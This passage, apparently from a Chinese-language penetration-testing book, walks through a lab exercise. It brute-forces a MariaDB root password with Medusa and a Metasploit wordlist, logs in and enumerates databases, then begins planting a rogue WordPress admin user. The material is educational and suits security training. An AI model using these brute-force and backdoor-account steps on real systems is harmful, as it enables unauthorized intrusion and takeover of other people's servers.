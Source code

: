 现在我们可以从 Kali 运行攻击，可以使用预安装的工具如 Medusa 来暴力破解数据库。以下命令使用 Medusa 的*mysql*模块，在 MariaDB 服务器上执行任务：

```
$ **medusa -h 127.0.0.1 -u root -P /usr/share/metasploit-framework/data/**
**wordlists/unix_users.txt -M mysql** 
```

我们使用 medusa 命令和参数-h（主机）、-u（用户）、-P（密码文件）和-M（模块），指定 127.0.0.1 主机、root 用户、密码文件*/usr/share/metasploit-framework/data/wordlists/unix_users.txt*和*mysql*。Medusa 将使用*unix_users.txt*文件中的密码列表来暴力破解 root 帐户。让 Medusa 运行几分钟，直到找到密码：

```
`--snip--`
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: redsocks
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: rfindd
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: rje
ACCOUNT CHECK: [mysql] Host: 127.0.0.1 User: root Password: root
**ACCOUNT FOUND: [mysql] Host: 127.0.0.1 User: root Password: root [SUCCESS]** 
```

很好，Medusa 找到了*root*用户的密码是*root*。让我们尝试连接数据库。从 Kali 运行以下命令：

```
$ **mysql -h 127.0.0.1 -u root -p**

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
`--snip--`

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

接下来，通过使用 show databases 命令枚举可用数据库：

```
$ MariaDB [(none)]> **show databases;**

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| **wordpress**          |
+--------------------+ 
```

正如你所看到的，我们找到了一个 WordPress 数据库。让我们连接一些点：这个*c-db-02*服务器可能是运行在*p-web-02*上的 WordPress 实例的后台数据库。回想一下，在之前章节中我们进行公共网络渗透测试时，这个数据库是无法访问的。现在我们尝试使用它进行进一步的利用。

### 反向植入 WordPress

现在我们以*root*用户身份访问 WordPress 数据库，可以修改数据库并添加我们自己的 WordPress 用户。这将使我们能够登录到 WordPress 管理页面，并完全控制博客平台。管理页面位于*http://172.16.10.12/wp-admin*，如图 11-2 所示。
